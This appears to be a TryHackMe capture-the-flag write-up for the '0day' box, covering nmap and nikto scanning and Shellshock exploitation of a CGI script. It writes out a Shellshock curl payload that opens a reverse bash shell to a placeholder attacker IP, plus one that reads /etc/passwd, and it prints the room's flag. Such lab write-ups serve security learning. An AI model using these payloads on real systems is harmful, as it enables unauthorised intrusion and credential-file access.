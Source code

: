 # Introduction

0day is a medium box on the TryHackMe platform. The box involves exploiting a website with shellshock and exploiting an outdated linux kernel

Scanning

To start our enumeration of the box we do an initial nmap scan. Using -sC for default scripts, -sV for version enumeration and -oA to output the results 

![2025-04-03_04-09](https://github.com/user-attachments/assets/3d03499b-4e54-43b1-8128-23829df30532)

The results of this nmap show 2 ports open:

port 80 which is a HTTP server.
Port 22 which is a SSH service

Our next step is to look into the HTTP server. Navigating there in the browser shows a site which looks like Ryan's portfolio page.
![image](https://github.com/user-attachments/assets/f2521554-1f6d-47f6-9d1a-d328cb8e40c7)

let’s enumerate this website and see what we can find

![image](https://github.com/user-attachments/assets/6225c5e3-abdf-4513-9802-4d4cd97afde6)

![image](https://github.com/user-attachments/assets/2fa14f5f-779b-4bb8-ab73-516e74ce3e87)

sudo nikto -h {target_ip}

![image](https://github.com/user-attachments/assets/0506f4cf-4705-4f83-827a-216d20bd8892)

curl –H ‘User-Agent: () { :;}; echo; echo; /bin/bash –i >& /dev/tcp/<attacker-ip>/4444 0>&1 ’ bash –s : ‘’ http://<ip-of-the-victim>/cgi-bin/test.cgi

![image](https://github.com/user-attachments/assets/2dc9944c-25ac-4ab8-bf90-88078ca9b52f)

![image](https://github.com/user-attachments/assets/f03f3400-be54-4e9d-adc4-3e3fa3fb7169)

THM{Sh3llSh0ck_r0ckz}




Let’s do some research on the Shellshock vulnerability we identified earlier. After a quick Google search, we’ve come across an exploit for it on GitHub.

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable

![image](https://github.com/user-attachments/assets/43a6d242-ae4b-4849-9c55-c615d74d623f)



